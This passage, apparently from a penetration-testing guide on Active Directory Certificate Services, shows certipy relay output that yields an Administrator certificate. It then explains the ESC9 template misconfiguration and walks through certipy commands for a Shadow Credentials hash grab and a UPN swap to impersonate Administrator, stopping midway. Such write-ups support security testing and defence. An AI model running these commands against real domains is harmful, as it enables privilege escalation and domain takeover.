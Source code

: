 ```bash
certipy relay -ca ca.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```

## No Security Extension - ESC9 <a href="#id-5485" id="id-5485"></a>

### Explanation

The new value **`CT_FLAG_NO_SECURITY_EXTENSION`** (`0x80000`) for **`msPKI-Enrollment-Flag`**, referred to as ESC9, prevents the embedding of the **new `szOID_NTDS_CA_SECURITY_EXT` security extension** in a certificate. This flag becomes relevant when `StrongCertificateBindingEnforcement` is set to `1` (the default setting), which contrasts with a setting of `2`. Its relevance is heightened in scenarios where a weaker certificate mapping for Kerberos or Schannel might be exploited (as in ESC10), given that the absence of ESC9 would not alter the requirements.

The conditions under which this flag's setting becomes significant include:

* `StrongCertificateBindingEnforcement` is not adjusted to `2` (with the default being `1`), or `CertificateMappingMethods` includes the `UPN` flag.
* The certificate is marked with the `CT_FLAG_NO_SECURITY_EXTENSION` flag within the `msPKI-Enrollment-Flag` setting.
* Any client authentication EKU is specified by the certificate.
* `GenericWrite` permissions are available over any account to compromise another.

### Abuse Scenario

Suppose `John@corp.local` holds `GenericWrite` permissions over `Jane@corp.local`, with the goal to compromise `Administrator@corp.local`. The `ESC9` certificate template, which `Jane@corp.local` is permitted to enroll in, is configured with the `CT_FLAG_NO_SECURITY_EXTENSION` flag in its `msPKI-Enrollment-Flag` setting.

Initially, `Jane`'s hash is acquired using Shadow Credentials, thanks to `John`'s `GenericWrite`:

```bash
certipy shadow auto -username John@corp.local -password Passw0rd! -account Jane
```

Subsequently, `Jane`'s `userPrincipalName` is modified to `Administrator`, purposely omitting the `@corp.local` domain part:

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```

This modification does not violate constraints, given that `Administrator@corp.local` remains distinct as `Administrator`'s `userPrincipalName`.
